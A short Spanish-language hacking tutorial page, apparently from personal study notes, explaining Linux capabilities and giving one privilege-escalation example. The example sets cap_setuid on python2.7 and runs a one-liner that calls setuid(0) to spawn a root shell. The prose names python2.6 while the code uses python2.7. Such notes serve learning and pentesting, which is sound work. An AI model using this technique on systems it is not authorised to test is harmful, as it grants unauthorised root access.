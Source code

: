 ```yaml
---
{"-publish":true,"permalink":"/hacking/basico/privilegios-especiales-capabilities/","PassFrontmatter":true}
---
```



---------------

## ¿Qué son las Capabilities?

En sí, las [Capabilities](https://book.hacktricks.wiki/es/linux-hardening/privilege-escalation/linux-capabilities.html?highlight=capabilities#capability-sets) son una forma de fragmentar los privilegios del ***super-usuario*** (`root`) en un conjunto más granular de permisos. Permiten a los procesos poder realizar acciones privilegiadas sin necesidad de ejecutar todo el proceso con privilegios de `root`.

Debido a esto, los ciber-delincuentes se aprovechan para realizar una explotación.

##### Ejemplo de explotación:
En el siguiente ejemplo, el binario`/usr/bin/python2.6`se considera vulnerable a privesc:
```python title:bash_scripting.bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

# Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```



